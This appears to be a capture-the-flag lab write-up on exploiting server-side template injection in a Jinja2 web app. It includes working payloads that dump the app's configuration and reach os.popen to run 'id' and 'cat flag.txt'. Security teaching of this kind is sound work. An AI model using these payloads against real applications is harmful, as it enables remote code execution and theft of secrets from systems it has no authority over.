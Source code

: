 # Exploiting SSTI - Jinja2

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise we are already assuming that the web application uses `Jinja` template engine.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets first try to obtain the web application configuration with the following payload:

```jinja2
{{ config.items() }}
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The payload worked perfectly. As we can see, we managed to get the web application configuration. Now lets try to do a Remote Code Execution (RCE)  with this payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><img src="../../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!&#x20;

After a few tries we would eventually end with the following payload to retrieve our flag:

{% code overflow="wrap" %}
```django
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

And we found the flag!
